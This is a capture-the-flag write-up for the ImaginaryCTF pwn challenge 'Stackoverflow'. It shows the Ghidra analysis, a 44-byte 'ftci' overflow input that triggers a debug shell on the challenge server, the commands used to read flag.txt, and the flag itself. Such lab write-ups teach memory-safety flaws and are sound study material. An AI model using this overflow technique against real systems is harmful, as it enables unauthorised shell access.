 ![ImaginaryCTF](../../banner.png)

# Stackoverflow

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|50|Pwn|413|

### Description

```
Welcome to Stack Overflow! Get answers to all your programming questions right here!
```

### Attachments

* [stackoverflow](stackoverflow)
* nc chal.imaginaryctf.org 42001

We are given a NetCat-Connection and an executable. Let's first get a look at nc:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
green
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```
The programm asks for a color, answeres a short text and throws an error.
Let's get a look at the executable to find out what it does. Therefore we can use [Ghidra](https://ghidra-sre.org/) to analyze the file:

![ghidra.PNG](ghidra.PNG)

Ghidra shows us a `main` function. Here we see that the program compares `local_10` with `0x69637466` ("ictf") while our input gets written into `local_38`. If the comparison  returns true it will execute `/bin/sh`, so we have to trigger that.

`local_38` is 40 bytes big and is stored infront of the `local_10` on the stack. So we just put 11 * "ftci" (= 44 Bytes) and it will fill `local_38` until it overflows 1 "ftci" into local_10. It has to be reverted to "ftci" as it has to be stored in little endian.

Doing this we get the following output:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
ftciftciftciftciftciftciftciftciftciftciftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
```
As we know from the disassembly `/bin/bash` is executed and we can interact with the shell:

```
[...]
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
```
There is our flag:
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
